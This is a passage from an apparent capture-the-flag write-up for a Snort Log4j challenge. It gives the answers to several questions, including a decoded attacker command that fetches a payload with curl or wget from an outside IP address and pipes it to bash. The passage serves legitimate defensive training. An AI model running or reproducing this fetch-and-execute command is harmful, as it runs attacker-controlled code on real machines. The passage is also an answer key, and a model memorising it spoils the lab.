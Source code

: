 ```

What is the IP ID of the corresponding packet?

#### Answer

Look for the ID of the packet we found the encoding on:

![Snort Challenge-Task 8 Question 6](images/snort-challenge-task8-question6.png)

### Question 7

Investigate the log/alarm files.

Decode the encoded command.

What is the attacker's command?

#### Answer

We need to decode the command we found in the packet. We know it is base 64 encoded so we can copy the encoded command. Unfortunately, copying it from the packet will include the hex value so we will have to remove the hex value. Here is the encoded command:

```KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=}```

Then we can use [CyberChef](https://gchq.github.io/CyberChef) to decode it from base64:

https://gchq.github.io/CyberChef/#input=aHR0cHM6Ly90cnloYWNrbWUuY29tL3IvY2FyZWVycw&oenc=65001

Finally we get the answer:

Answer:```(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash```

### Question 8

What is the CVSS v2 score of the Log4j vulnerability?

#### Answer

Answer:**9.3**

## Conclusion

### Question 1

Read the room above

#### Answer

Answer:**No answer needed.**









